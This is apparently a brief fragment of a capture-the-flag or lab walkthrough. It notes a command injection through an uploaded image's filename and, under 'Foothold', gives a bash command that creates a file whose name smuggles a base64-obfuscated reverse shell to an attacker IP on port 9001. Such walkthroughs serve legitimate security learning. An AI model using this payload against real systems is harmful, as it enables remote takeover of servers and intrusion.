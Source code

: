 

command injection, upload img name

![image-20230108134045942](./images/image-20230108134045942.png)



# Foothold

generate file with payload in filename.

```bash
touch 'test.jpg; echo YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMS85MDAxIDA+JjEiCg==|base64 -d|bash;'
```

